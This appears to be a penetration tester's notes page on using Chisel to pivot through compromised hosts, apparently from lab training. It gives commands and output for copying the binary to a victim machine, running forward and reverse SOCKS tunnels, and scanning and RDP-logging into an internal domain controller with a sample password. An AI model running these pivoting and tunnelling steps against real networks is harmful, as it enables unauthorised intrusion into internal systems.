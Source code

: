```yaml
---
description: >-
  Chisel is a TCP/UDP-based tunneling tool written in Go that uses HTTP to
  transport data that is secured using SSH. Chisel can create a client-server
  connection in a firewall restricted environment.
---
```


# Chisel

<mark style="color:red;">**IMPORTANT:**</mark>** We need to be mindful of the size of files we transfer onto targets, not just for performance reasons but also considering detection. Some useful links to proceed:**

{% embed url="https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html" %}

## **Installing Chisel**

### Clone Repository

```shell-session
attacker@kali$ git clone https://github.com/jpillora/chisel.git
```

### B**uilding the Chisel Binary**

```shell-session
attacker@kali$ cd chisel
go build
```

## Transfer Chisel Binary to Victim

**Transferring Chisel Binary with SCP, A Web Server, or other methods of choice.**

```shell-session
attacker@kali$ scp chisel victim@10.129.202.64:~/home/victim
```

## **Running Chisel Server - Jump Host Server**

**We start a chisel server for a client to connect to.**

```shell-session
victim@ubuntu$ ./chisel server -v -p 1234 --socks5
```

<mark style="color:red;">**NOTE:**</mark> This can be on jump host, kali host, or whichever host we need it for.&#x20;

Chisel will listen for incoming connections on port 1234 using SOCKS5 (--socks5) and _**forward it to all the networks that are accessible on the pivot host.**_

## Running Chisel Client

<mark style="color:red;">**NOTE:**</mark> we can also run the chisel server on the Kali host.

```shell-session
attacker@kali$ ./chisel client -v 10.129.202.64:1234 socks
2022/05/05 14:21:18 client: Connecting to ws://10.129.202.64:1234
2022/05/05 14:21:18 client: tun: proxy#127.0.0.1:1080=>socks: Listening
2022/05/05 14:21:18 client: tun: Bound proxies
2022/05/05 14:21:19 client: Handshaking...
2022/05/05 14:21:19 client: Sending config
2022/05/05 14:21:19 client: Connected (Latency 120.170822ms)
2022/05/05 14:21:19 client: tun: SSH connected
```

In the above output, the Chisel client creates a TCP/UDP tunnel via HTTP using SSH between the Chisel server and the client and starts a listener on local port 1080. _**Now we can modify proxychains.conf and add 1080 port so we can use it to pivot between 1080 and the tunnel.**_\


```shell-session
$ tail -f /etc/proxychains.conf 
...
# socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080
```

**Pivoting / Attacking the DC**

<pre class="language-shell-session"><code class="lang-shell-session"><strong>attacker@kali$ proxychains nmap 172.16.5.1-200 -sn -v
</strong></code></pre>

```shell-session
attacker@kali$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

## Chisel Reverse Pivot - Kali Server

In the previous example, we transfered a chisel binary to the compromised victim machine and started a listener on port 1234. Commonly, there will be scenarios where firewalls restrict inbound connections to our target. In such cases, we can use Chisel with the reverse tunnel option.

With the Chisel --reverse (-R) enabled, The server (attack host) will listen and accept connections and then be proxied through the client.

### S**tarting the Chisel Server on our Attack Host**

<pre class="language-shell-session"><code class="lang-shell-session"><strong>attacker@kali$ sudo ./chisel server --reverse -v -p 1234 --socks5
</strong></code></pre>

Then we connect from the Ubuntu (pivot host) to our attack host, using the option `R:socks`

### C**onnecting the Chisel Client to our Attack Host**

```shell-session
victim@ubuntu$ ./chisel client -v <kali-ip>:1234 R:socks
```

_<mark style="color:red;">**NOTE:**</mark>** **<mark style="color:yellow;">**Chisel opens a port**</mark>** **<mark style="color:red;">**1080**</mark>** **<mark style="color:yellow;">**that we will use.**</mark>_

_**Now we can modify proxychains.conf and add 1080 port so we can use it to pivot between 1080 and the tunnel.**_

```shell-session
$ tail -f /etc/proxychains.conf 
...
# socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080
```

**Pivoting / Attacking the DC**

<pre class="language-shell-session"><code class="lang-shell-session"><strong>attacker@kali$ proxychains nmap 172.16.5.1-200 -sn -v
</strong></code></pre>

```shell-session
attacker@kali$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```



### Port Forwarding localhost Web Service (phpmyadmin)

If the server we popped a shell on is running phpmyadmin its work portforwarding back to our host.

```powershell
.\chisel.exe client 192.168.45.170:8081 R:8090:localhost:80
```

Navigating to localhost:8090, we can now access the admin portal

<figure><img src="../../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

### **Port Forwarding an Internal Web Service.**

Sometimes we may want to port foward a direct port back to our reverse port forward. We can use the syntax: **R:localport:remotehost:remoteport.**

<mark style="color:red;">**NOTE:**</mark> <mark style="color:yellow;">**This is useful if we want to access an internal**</mark>** **<mark style="color:red;">**web service**</mark>** **<mark style="color:yellow;">**on our local machine through 127.0.0.1**</mark>

```powershell
C:\Users\marcus> chisel.exe client 192.168.119.5:8080 R:80:172.16.6.241:80

2022/10/11 07:22:46 client: Connecting to ws://192.168.119.5:8080
2022/10/11 07:22:46 client: Connected (Latency 11.0449ms)
```

#### We can navigate to 127.0.0.1 and see the portforwarded web service

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We may need to upate our /etc/hosts to fit the domain name.

